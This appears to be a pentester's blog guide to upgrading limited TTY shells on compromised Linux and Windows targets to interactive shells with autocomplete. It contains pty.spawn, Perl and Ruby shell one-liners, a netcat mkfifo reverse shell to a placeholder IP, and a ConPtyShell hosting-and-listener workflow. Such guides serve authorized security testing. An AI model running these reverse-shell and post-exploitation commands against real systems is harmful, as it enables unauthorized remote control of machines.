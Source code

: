```yaml
---
title: "Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters"
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
---
```


## Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify Installed Language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:

```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```

### Examples

Below are commands to help upgrade the basic TTY shell:

```bash
# Use Python 3 to spawn an upgraded shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Use Python 2 to spawn an upgraded shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Alternative approach with os.system
echo os.system('/bin/bash')

# Spawn an interactive shell with /bin/sh
/bin/sh -i

# Use Perl to execute a shell
perl -e 'exec "/bin/sh";'

# Use Ruby to execute a shell
ruby -e 'exec "/bin/sh"'
```

### If Python Isn't Installed, Use:

```shell
# Use the script command to spawn an upgraded shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Reverse Shell Example

```bash
# Simple reverse shell using Netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.xxx.xxx 9001 >/tmp/f
```

### Steps to Get an Autocomplete Shell

1. After choosing one of the methods above to upgrade your TTY shell, suspend it using:

    ```bash
    ctrl-z
    ```

2. On the attacker's machine, run:

    ```bash
    stty raw -echo
    stty -a  # Verify current terminal settings
    ```

3. Bring the shell to the foreground:

    ```bash
    fg
    ```

4. Press `Enter` twice to reactivate the session.

Now you should have a shell with autocomplete, history, and better usability features.

To have autocomplete on a Windows machine, you can also use:

- <a href="https://github.com/antonioCoco/ConPtyShell" target="_blank">ConPtyShell</a>

## A simple guide how you could use it:

To upgrade to an advanced shell on a Windows target using PowerShell, you can leverage the ConPtyShell method. Below is an example workflow for hosting and running the script:

On Kali Linux (Attacker's Machine)
```bash
# Host the PowerShell script
python3 -m http.server 80  
# to host Invoke-ConPtyShell.ps1

# In another terminal on Kali
stty raw -echo; (stty size; cat) | nc -lvnp 9001
```

To have autocomplete on a Linux machine, you can also use:

- <a href="https://github.com/brightio/penelope" target="_blank">penelope</a>

```shell
# Clone the repo, go to the directory and use the command:
./penelope.py 5555 -i eth0

# For more guidance, go to the repo.
```

### Conclusion

Upgrading to a TTY shell with autocomplete makes working on target systems much easier for pentesters. It helps you type commands faster, find past commands quickly, and move around more efficiently. This saves time and reduces mistakes, making the job smoother and simpler. Whether you’re working on Linux or Windows, having an upgraded shell makes interacting with the system more comfortable and productive.
